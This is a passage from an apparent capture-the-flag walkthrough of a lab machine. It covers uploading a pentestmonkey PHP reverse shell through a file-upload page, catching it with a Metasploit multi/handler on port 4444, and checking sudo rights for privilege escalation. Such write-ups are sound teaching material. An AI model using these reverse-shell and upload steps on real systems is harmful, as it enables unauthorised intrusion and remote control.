 # 03. Revshell

## Make RevShell
{% include gallery id="gallery1" %}

## Upload RevShell
<div class="notice--primary" markdown="1">
http://172.16.1.185/upload.php
<pre>
<p style="background-color:white;">

The file pentestmonkey.php has been uploaded. 
</p>
</pre>
</div>

## Run multi/handler in Metasploit
```
resource (/usr/share/metasploit-framework/scripts/resource/multi_handler_php.rc)> use exploit/multi/handler
[*] Using configured payload linux/x86/shell_reverse_tcp
resource (/usr/share/metasploit-framework/scripts/resource/multi_handler_php.rc)> set payload payload/php/reverse_php
payload => php/reverse_php
resource (/usr/share/metasploit-framework/scripts/resource/multi_handler_php.rc)> set LPORT 4444
LPORT => 4444
msf6 exploit(multi/handler) > run -j
```
## BurpSuite
{% include gallery id="gallery2_4" %}

## Just run
<pre>
<p style="background-color:white;">
http://172.16.1.185/pentestmonkey.php
</p>
</pre>

# 04. Shell

## P1
```bash
# www-data@five:/$ sudo -l
sudo -l
Matching Defaults entries for www-data on five:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User www-data may run the following commands on five:
    (melisa) NOPASSWD: /bin/cp
```
